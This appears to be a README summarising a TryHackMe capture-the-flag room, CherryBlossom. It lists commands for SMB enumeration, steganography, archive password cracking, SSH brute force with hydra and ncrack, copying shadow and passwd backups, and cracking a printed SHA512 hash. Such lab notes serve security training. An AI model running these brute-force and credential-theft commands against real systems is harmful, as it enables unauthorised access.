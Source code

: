 # TryHackMe-CherryBlossom

**Scope:**

- SMB (Server Message Block)
- Steganography
- ZIP Archive
- 7-ZIP
- pwdfeedback

**Keywords:**

- SSH Password Brute Force
- SHA512 Password Cracking
- ZIP Password Cracking
- pwdfeedback
- pwdfeedback vulnerability
- sudo vulnerability
- Steganography Approaches
- SMB Shares
- PNG Image Analysis
- HEX Layout Manipulation
- File Signatures
- XML File Reading
- SSH File Transfer
- Backup Files
- gcc
- gcc-7

**Main Commands:**

- `nmap -sS -sV -sC -T4 -A -O -oN nmap_result.txt -Pn $target_ip`
- `enum4linux -a $target_ip`
- `nmap --script "smb-enum-*" -p 139,445 $target_ip`
- `enum4linux-ng -A cherryblossom.thm`
- `smbclient -L \\cherryblossom.thm`
- `rpcclient -U "" -N cherryblossom.thm`
- `smbmap -H cherryblossom.thm`
- `smbclient \\\\cherryblossom.thm\\Anonymous`
- `smbmap -H $target_ip --download 'Anonymous/journal.txt'`
- `file journal.txt`
- `cat journal.txt | base64 -d > decodedjournal.txt`
- `stego-toolkit/scripts/check_png.sh decodedjournalobject`
- `zsteg -a decodedjournalobject`
- `stegpy decodedjournalobject`
- `hexeditor _journal.zip`
- `unzip _journal.zip`
- `zip2john _journal.zip > journalziphash`
- `sudo john --wordlist=/usr/share/wordlists/rockyou.txt journalziphash`
- `fcrackzip -bDu -p /usr/share/wordlists/rockyou.txt _journal.zip`
- `unzip _journal.zip`
- `7z2john Journal.ctz > ctzhash`
- `sudo john --wordlist=/usr/share/wordlists/rockyou.txt ctzhash`
- `7z x Journal.ctz`
- `cherrytree Journal.ctd`
- `hydra -l lily -P cherry-blossom.list ssh://cherryblossom.thm -V -f -e ns`
- `ncrack -u lily -P cherry-blossom.list  ssh://cherryblossom.thm`
- `ssh -o MACs=hmac-sha2-256 lily@cherryblossom.thm -p 22`
- `scp -o MACs=hmac-sha2-256 lily@cherryblossom.thm:/var/backups/passwd.bak /root/Desktop/CyberLearningFramework/cherryblossom/passwd.bak`
- `scp -o MACs=hmac-sha2-256 lily@cherryblossom.thm:/var/backups/shadow.bak /root/Desktop/CyberLearningFramework/cherryblossom/shadow.bak`
- `hashid '$6$zV7zbU1b$FomT/aM2UMXqNnqspi57K/hHBG8DkyACiV6ykYmxsZG.vLALyf7kjsqYjwW391j1bue2/.SVm91uno5DUX7ob0’`
- `sudo john --wordlist=cherry-blossom.list shadowhash`